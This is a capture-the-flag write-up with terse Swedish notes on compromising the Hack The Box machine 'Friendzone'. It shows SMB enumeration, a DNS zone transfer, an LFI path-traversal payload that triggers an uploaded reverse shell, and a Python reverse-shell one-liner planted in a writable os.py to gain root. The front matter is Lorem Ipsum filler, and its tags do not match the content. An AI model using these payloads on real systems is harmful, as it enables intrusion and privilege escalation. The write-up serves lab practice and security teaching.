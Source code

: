 ```yaml
---
layout: single
title: Friendzone - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-17
classes: wide
header:
  teaser: /assets/images/htb-writeup-friendzone/friendzone_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-friendzone/friendzone_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Enum standard + extra smb
   nmap -sC -sV -O 10.10.10.123
   nmap --script=smb-enum-shares 10.10.10.123 (visar shares, rättigheter samt path)

2. Ladda hem cred.txt
   smbclient //10.10.10.123/general
   get creds.txt

3. Zone Transfer för att få fram subdomäner
   dig axfr friendzone.red @10.10.10.123

4. Lägg in alla subdomäner i /etc/hosts
   10.10.10.123 friendzone.red
   10.10.10.123 administrator1.friendzone.red
   10.10.10.123 hr.friendzone.red
   10.10.10.123 uploads.friendzone.red

5. Logga in på administrator1 med creds från steg 2

6. Ladda upp reverse shell i SMB map med write-rättigheter (Development)
   smbclient //10.10.10.123/Development
   put r

7. Slå igång nc för att ta emot reverse
   nc -lnvp 4455

8. LFI via dashboard.php för att anropa reverse shell
   Från smb-enum-shares i steg 1 fick vi fram path till Development (/etc/Development), anropa reverse shell:
   dashboard.php?image_id=a.jpg&pagename=../../../../../etc/Development/r

   NOTE1:
   Kan vara värt att ladda upp en test fil innehållande "<?php phpinfo(); ?>" (utan "") för att hitta path till filerna

   NOTE2:
   Anropet kommer se ut såhär: <?php “include/”.include($_GET['pagename'].“.php”); ?>
   Döp INTE din fil till .php då anropet blir ($_GET['../../../../etc/development/x.PHP'].“.php”); ?> och kommer inte lira
   (dubbel .php-filändelse)

9. Plocka user via /home/friend/user.txt

10. Hämta SSH-creds
    ls /var/www/htm/mysql_data.conf
    (f*****:A*************)

### ROOT ###

1. SSH in till boxen
   ssh friend@10.10.10.123

2. Kolla på tjänster som körs med pspy
   2019/06/18 16:24:01 CMD: UID=0    PID=4059   | /bin/sh -c /opt/server_admin/reporter.py 
   2019/06/18 16:24:01 CMD: UID=0    PID=4058   | /bin/sh -c /opt/server_admin/reporter.py 
   2019/06/18 16:24:01 CMD: UID=0    PID=4057   | /usr/sbin/CRON -f 

3. Undersök scriptet reporter.py och se att 'import os' används

4. Import os körs via /usr/lib/python2.7/os.py vilket har +r+w rättigheter (skulle se detta via lse med -l1 flaggan)
   Hittade denna info via kommandot: python -c 'import sys; print "\n".join(sys.path)'
   Samt läste om det på: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

5. Editera os.py och lägg till one-line python reverse shell längst ner, och vänta på att cron triggar det
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

6. Starta nc -lvnp 4488 och plocka root.txt
